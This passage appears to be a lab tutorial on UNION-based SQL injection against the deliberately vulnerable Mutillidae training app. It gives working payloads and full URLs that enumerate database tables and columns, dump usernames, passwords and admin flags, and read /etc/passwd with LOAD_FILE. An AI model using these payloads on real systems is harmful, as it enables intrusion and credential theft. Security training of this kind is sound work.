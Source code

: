 Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details
![379093383-a20508d4-9161-4857-afe9-9b91df6c37b1](https://github.com/user-attachments/assets/2f43be3c-571c-45b5-a968-73363502d4ba)


The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![379093493-882f154d-a231-4e78-a335-e85266f127f8](https://github.com/user-attachments/assets/4df0d0ae-941c-4ac7-b506-5b700d713b9f)

![379093535-143f6b94-3596-4745-9b44-bdb21834479b](https://github.com/user-attachments/assets/74e7423d-44ce-4bb9-a7d0-5da4a64c9940)


The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details
![379093615-a674c2a2-6f98-4366-816c-136f8253813e](https://github.com/user-attachments/assets/e1ce3b9f-2021-4f10-aeb9-331026e6059c)


Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

## Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details
![379093741-07a66e96-cfe9-4f5c-af59-a7421dab323d](https://github.com/user-attachments/assets/be031feb-1725-412d-9823-ce28da93061f)


Reading and writing files on the web-server
We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

## Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).
